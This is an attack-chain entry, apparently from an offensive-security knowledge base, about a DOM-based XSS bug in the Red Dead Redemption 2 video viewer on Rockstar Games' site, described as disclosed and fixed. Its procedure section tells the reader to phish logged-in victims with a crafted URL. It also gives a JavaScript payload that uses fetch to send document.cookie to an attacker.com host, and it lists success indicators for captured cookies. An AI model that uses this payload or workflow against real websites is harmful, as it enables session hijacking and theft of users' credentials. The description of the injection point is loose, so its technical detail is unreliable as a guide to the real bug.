

---
tags:
  - xss
  - dom-xss
  - web
  - cookie-theft
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-DOM-based-XSS-in-Video-Viewer]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:47:18.079Z'
description: >-
  Demonstrates exploitation of a DOM-based XSS vulnerability in the localized
  video viewer of Red Dead Redemption 2 on Rockstar Games website, allowing
  theft of cookies or sensitive tokens across major browsers.
skill_level: intermediate
impact_level: high
id: 4ae0a15c-a0f1-426c-b5d8-cafc130d5725
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# DOM-based XSS in Red Dead Redemption 2 Video Viewer for Cookie Theft

Multi-stage attack chain demonstrating a complete attack workflow.

The vulnerability resides in the client-side JavaScript of the video viewer on localized pages like /reddeadredemption2/br/videos, where insufficient sanitization of URL parameters leads to DOM manipulation and script execution. An attacker crafts a malicious link shared via social engineering or phishing, tricking users into visiting it while authenticated. Upon loading, the injected script executes in the victim's browser, exfiltrating cookies or tokens to an attacker-controlled server. This affects all major modern browsers and could enable session hijacking. The issue was responsibly disclosed and fixed promptly.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- Web platform
- Accessible Rockstar Games website (localized video pages)
- No specific ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- Victim must be authenticated on the site (e.g., logged in with session cookies)
- Attacker needs a way to deliver the malicious URL (e.g., phishing email)
- Network access to the public internet

## Detailed Attack Procedures

### Step 1: Deliver and Execute Malicious Video URL
procedure: [[procedures/Exploit-DOM-based-XSS-in-Video-Viewer]]

**Objective**: Trick the victim into loading a video page with an injected XSS payload in the URL parameters, leading to script execution and cookie theft.

**Instructions**: Craft a malicious URL by appending a parameter (e.g., video ID or query string) with a payload like `javascript:alert(document.cookie)`. For example, modify the base URL `https://www.rockstargames.com/reddeadredemption2/br/videos?video=malicious` to include the payload. Share this link with the victim. Upon clicking while logged in, the DOM-based handler in the JavaScript processes the unsanitized input, executing the script.

To test locally, use browser developer tools to inspect the video viewer script and confirm parameter handling. For exploitation, replace the alert with a fetch to an attacker server: `javascript:fetch('https://attacker.com/steal?cookie='+document.cookie)`.

**Expected Output**: Alert box showing cookies or network request to attacker server with stolen data.

**Success Indicators**:
- Script execution confirmed (e.g., alert pops or network tab shows exfiltration)
- Cookies/tokens captured on attacker side
- No server-side errors; purely client-side impact

## Attack Chain Summary

### Key Achievements

1. Identified and exploited DOM-based XSS in video viewer parameters
2. Demonstrated cross-browser cookie theft without server interaction
3. Enabled potential session hijacking via stolen tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
